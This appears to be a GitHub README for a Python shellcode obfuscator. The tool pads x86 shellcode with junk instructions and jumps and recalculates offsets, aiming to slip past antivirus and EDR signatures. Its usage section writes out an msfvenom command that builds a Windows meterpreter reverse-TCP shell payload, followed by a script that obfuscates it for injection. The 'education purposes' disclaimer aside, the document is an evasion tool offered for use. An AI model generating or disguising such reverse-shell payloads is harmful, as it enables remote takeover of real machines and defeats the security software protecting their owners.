 ## Disclamer
It's only for education purpases. I mean, you can try to understand what is going on here, but I strongly do not recommend XD
Actually i would be glad to any suggestions

## Intro
Shellcode has several key differences compared to assembly code:
* Only relative addresses, without absolute addresses
* No variables, only registers or something
* All bytes without scesial chars, ex. 0x00, 0x0a (not always)
Therefore, shellcode can work in any injections without connection to code

## Description
This stuff should obfuscate generated shellcode without manual instructions change

Python script doing next stuff:
* Take random x86 shellcode
* Paste some garbage instructions, such nops, jumps and random data inside this new jumps without.
* Correnting all relative addresses in all jumps, calls, and other opcodes with EIP changing.

![pythonfuscator](https://github.com/user-attachments/assets/f9012567-7fcd-4842-890f-63b3a74abcd3)


Others VS projects only needs for shellcode injection. Please, use anything but them.

## Usage
1. Create any shellcode with specific format. For example:
```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=127.0.0.1 LPORT=4444 -f raw  | pwn disasm | sed 's/^[ \t]*[0-9a-z]*:[ \t]*//g' | sed 's/[ \t]\{2,\}.*//g' > msf.raw
```
2. change file path in main.py. you can choose ofcuscation methods and interations number. Also change it in main.py. main.py example:
```python
import shell_bytes
shellcode = shell_bytes.ShellBytes('../rev.hex')
print('Was ', len(shellcode.get_payload()), ' instructions')
shellcode.expand_offsets()
shellcode.add_garbage_instructions_after_each_instruction_with_jmp()
print('Now ', len(shellcode.get_payload()), ' instructions')
shellcode.compile('./resources/my_payload.raw')
```
3. That's all. I don't think shellcode can change logic.

Yes, i know that AV and EDR can easy detect NOPs and JMPs signature. But the concept itself works, and it may be applied for more difficult examples, such as shellcode shuffling
